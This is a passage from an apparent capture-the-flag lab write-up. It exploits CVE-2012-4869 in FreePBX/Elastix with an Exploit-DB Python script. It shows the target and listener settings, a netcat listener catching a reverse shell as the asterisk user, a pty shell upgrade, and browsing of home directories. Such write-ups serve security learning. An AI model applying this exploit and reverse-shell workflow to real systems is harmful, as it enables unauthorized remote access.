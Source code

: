 After trying a few times, we could not get this to work, and so we decided to move on to the next exploit.

## Gaining Access

### CVE: 2012-4869

The next one we will try is the following

{% embed url="https://www.exploit-db.com/exploits/18650" %}
FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution
{% endembed %}

This is a python script, which requires some minimal modifications for the IP addresses and for the extension number to target as follows:

> rhost="10.10.10.7"&#x20;
>
> lhost="10.10.14.6"&#x20;
>
> lport=9999&#x20;
>
> extension="233"

Start a netcat listener and run the exploit:

```
└─$ python 18650.py
                             
```

```
└─$ nc -nvlp 9999      
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 10.10.10.7.
Ncat: Connection from 10.10.10.7:45270.
id
uid=100(asterisk) gid=101(asterisk)

```

Let's upgrade the shell and grab the user flag.

```
which python
/usr/bin/python
which python3
python -c 'import pty; pty.spawn("/bin/bash")'
bash-3.2$ id
id
uid=100(asterisk) gid=101(asterisk)
bash-3.2$ pwd
pwd
/tmp
bash-3.2$ cd /home
cd /home
bash-3.2$ ls -la
ls -la
total 28
drwxr-xr-x  4 root       root       4096 Apr  7  2017 .
drwxr-xr-x 22 root       root       4096 Nov 27 14:19 ..
drwxrwxr-x  2 fanis      fanis      4096 Apr  7  2017 fanis
drwx------  2 spamfilter spamfilter 4096 Apr  7  2017 spamfilter
bash-3.2$ cd fanis
cd fanis
bash-3.2$ ls -la
```